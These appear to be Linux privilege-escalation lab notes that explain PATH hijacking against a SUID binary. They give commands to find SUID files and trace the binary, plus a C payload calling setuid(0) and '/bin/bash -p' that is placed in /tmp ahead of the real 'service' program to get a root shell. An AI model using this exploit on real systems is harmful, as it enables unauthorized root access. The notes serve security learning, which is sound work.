






PATH Environment Variable
• The PATH environment variable contains a list of directories where the shell should try to find programs.
• If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.
◇ the name of that "sub-program" is likely embedded in the executable file of the principal program as a string.
◇ We can run strings on the executable file of the principal program to find strings of characters that could be referring to a another program
◇ We can also use strace to see how the program is executing. Another program called ltrace may also be of use
• Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.
1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

2. Run strings on the SUID file:
target@debian:~$ strings /usr/local/bin/suid-env

The program(suid-env) could be trying to run the service program without a full path*. We have to verify that.
*If it run with a full path like the below one:

see the next chapter Abusing Shell Features (define user functions)
4. To run the service program, linux is searching on this directories
target@debian:~$ print $PATH

5. We can verify this
◇ with strace:
target@debian:~$ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service

◇ with ltrace:
target@debian:~$ ltrace /usr/local/bin/suid-env 2>&1 | grep service

6. what we want to do is change the directory from where service is called from
7. Create a malicious service file called “service.c” in the folder /tmp
target@debian:~$ vim service.c
# i --> insert
#Esc --> esc from insert
#:w --> write(save)
#:q --> exit
int main() {
setuid(0);
system("/bin/bash -p");
}
8. Compile service.c into a file called service:
target@debian:~$ gcc -o /tmp/service /tmp/service.c
9. Prepend the /tmp directory (or where the new malicious service executable is located) to the PATH variable, and execute the SUID file for a root shell:
target@debian:~$ export PATH=/tmp:$PATH

10. Now we can run the SUID file that we have found at point 1 and become root
target@debian:~$ /usr/local/bin/suid-env